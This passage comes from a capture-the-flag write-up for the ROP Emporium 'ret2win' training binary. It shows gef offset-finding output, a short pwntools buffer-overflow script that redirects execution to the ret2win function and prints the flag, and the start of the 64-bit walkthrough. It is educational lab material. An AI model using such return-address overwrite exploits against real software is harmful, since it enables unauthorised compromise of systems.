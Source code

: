 ```shell
gef➤  pattern offset 0x6161616c 50
[+] Searching '0x6161616c'
[+] Found at offset 44 (little-endian search) likely
[+] Found at offset 41 (big-endian search) 
gef➤
```

Quick exploit script written in python.
```python
  1 #!/usr/bin/env python
  2 
  3 from pwn import *
  4 
  5 context.log_level = 'critical'
  6 
  7 elf = ELF("./ret2win")
  8 
  9 ret2win_addr = elf.symbols['ret2win']
 10 
 11 payload = "A"*44
 12 payload += p32(ret2win_addr)
 13 
 14 sh = elf.process()
 15 
 16 sh.recvuntil('> ')
 17 sh.sendline(payload)
 18 
 19 print sh.recvall()
```

And then, the flag.

```shell
~/Documents/ropemporium/ret2win/32ret2win# chmod +x exploit.py && ./exploit.py
Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
```

### 64-bit
<a href="{{ page.url }}#title">Back to top ↑</a>

Running checksec.
```shell
root@kali:~/Documents/ropemporium/ret2win/64ret2win# checksec ./ret2win
[*] '/root/Documents/ropemporium/ret2win/64ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Since this is 64 bit, we will notice something different with the gdb output once we overflow the buffer.
```shell
gef➤  pattern create 50
[+] Generating a pattern of 50 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
[+] Saved as '$_gef0'
gef➤  run
Starting program: /root/Documents/ropemporium/ret2win/64ret2win/ret2win 
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!
```